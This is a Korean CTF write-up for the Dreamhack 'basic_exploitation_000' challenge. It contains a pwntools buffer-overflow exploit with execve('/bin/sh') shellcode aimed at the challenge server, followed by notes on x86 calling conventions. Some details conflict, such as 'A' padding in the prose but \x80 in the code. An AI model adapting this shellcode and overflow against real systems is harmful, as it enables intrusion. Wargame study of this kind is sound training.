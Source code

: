 ```yaml
---
title: "(Dreamhack) basic_exploitation_000"
date: 2021-02-24 05:24:00 -0400
categories: Security
---
```


## 문제 풀이

buf가 지역 변수로 0x80만큼 할당이 되어 있고, 이를 통해 ret 주소와 132바이트만큼 차이난다는 것을 알 수 있다. (buf크기 128바이트 +sfp 4바이트)

![image](https://user-images.githubusercontent.com/24788751/108988447-d182f980-76d7-11eb-90e2-92608229fa4f.png)

![image](https://user-images.githubusercontent.com/24788751/108988382-bdd79300-76d7-11eb-9245-e8f38c8e64c2.png)
IDA를 이용하여 살펴본 스택 공간


``` python
from pwn import *

proc = remote("host1.dreamhack.games", 15867)

proc.recvuntil("buf = (")
bufAddr = int(proc.recv(10), 16)
shellcode = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
shellcode += "\x80" * 106
shellcode += str(p32(bufAddr))
proc.send(shellcode)

proc.interactive()
```

buf 공간에 26바이트의 쉘 코드와 아무 의미 없는 'A'를 106바이트만큼 채워주고 ret 주소에 buf 주소가 오버플로우될 수 있도록 하였다.

![image](https://user-images.githubusercontent.com/24788751/108981294-f1aeba80-76cf-11eb-8786-58c69bc1508a.png)

## 함수 호출 방식
함수를 호출하는 과정에서 매개변수, 리턴 주소 등을 어떻게 스택에 넣고 정리할 지 정하는 **함수 호출 규약**

![image](https://user-images.githubusercontent.com/24788751/108988472-d9429e00-76d7-11eb-9eaf-b73e7e5238fa.png)

sum(a, b)를 호출했다고 가정하자

### _cdecl
_cdecl은 c언어에서의 기본 함수 호출 규약이다. 스택을 사용하여 함수 외부에서 공간을 정리한다. (스택 정리는 caller가 함)
``` c
push b
push a
call sum()
add esp, 8
```

### _stdcall
_stdcall은 스택을 사용하여 함수 내부에서 공간을 정리한다. WINAPI에서 많이 사용한다. (스택 정리는 callee가 함)

``` c
push b
push a
call sum()
```
함수 리턴시 ret * 8 수행

### _fastcall
다른 호출 규약과 달리 레지스터를 이용한다. 레지스터를 이용하므로 속도가 빠르지만 경우에 따라 코드가 길어질 수 있다.
``` c
mov edx, b
mov ecx, a
call sum()
```

### _thiscall
c++에서 사용하는 호출규약으로 _stdcall과 비슷한 구조를 갖는다.
``` c
push b
push a
lea ecx, [ebx - 4]
call sum()
```
c++에서 자기 자신을 가리키는 this 포인터의 주소가 ecx 레지스터에 담기게 된다.